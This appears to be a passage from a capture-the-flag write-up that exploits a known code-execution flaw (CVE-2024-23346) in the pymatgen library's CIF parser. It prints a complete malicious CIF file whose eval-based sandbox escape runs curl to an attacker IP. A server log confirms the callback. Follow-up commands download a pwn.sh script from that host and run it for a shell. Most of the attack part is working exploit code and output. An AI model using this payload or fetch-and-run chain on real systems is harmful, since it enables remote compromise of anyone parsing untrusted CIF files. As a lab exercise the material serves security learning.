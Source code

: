 It's [https://github.com/materialsproject/pymatgen](https://github.com/materialsproject/pymatgen)\
Next thing we can do is google vulnerabilites of this project

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2024-23346" %}
First google search URL
{% endembed %}

POC : [https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Following the POC, we can craft malicious CIF file and get RCE since it's using `eval` in the backend.

#### Malicious file

```python
╰─➤  cat ape.cif    
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl 10.10.13.47:4444/test");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

```bash
╰─➤  python3 -m http.server 4444 
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.129.162.207 - - [20/Oct/2024 01:34:32] code 404, message File not found
10.129.162.207 - - [20/Oct/2024 01:34:32] "GET /test HTTP/1.1" 404 -
```

DONE, just update the payload and get a shell.

```python
# get our payload on server
("os").system ("curl 10.10.13.47:4444/pwn.sh -o /tmp/pwn.sh");0,0,0'

# get a shell
("os").system ("/bin/bash /tmp/pwn.sh");0,0,0'
```
